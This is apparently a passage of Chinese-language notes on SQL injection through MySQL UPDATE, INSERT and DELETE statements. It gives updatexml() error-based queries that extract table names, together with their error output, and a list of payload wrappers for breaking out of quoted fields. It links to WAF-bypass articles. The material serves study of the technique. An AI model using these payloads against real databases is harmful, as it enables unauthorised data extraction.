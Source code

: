 ```
```

我们可以用insert、update、delete语句获取到数据库表名、列名，但是不能用update获取当前表的数据
别的表可以查出结果
```
mysql> update users set password='test' or updatexml(1,concat(0x5e5e, (select table_name from information_schema.tables limit 0,1)),1) where id=2;

ERROR 1105 (HY000): XPATH syntax error: '^^CHARACTER_SETS'
```
查users当前表
```
mysql> update users set password='test' or updatexml(1, concat(0x5ete, (select username from security.users limit 0,1)),1) where id=1;

ERROR 1093 (HY000): You can't specify target table 'users' for update in FROM clause
```

相对应的变形
```
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'* (payload) *'
' or (payload) and '
" – (payload) – "
```



# References
[virusdefender's blog](https://virusdefender.net/index.php/category/sqli/)
[利用insert，update和delete注入获取数据](http://drops.wooyun.org/tips/2078)
[MySQL注射的过滤绕过技巧2](http://www.lijiejie.com/mysql-injection-bypass-waf-2/)
[见招拆招：绕过WAF继续SQL注入常用方法](http://www.freebuf.com/articles/web/36683.html)
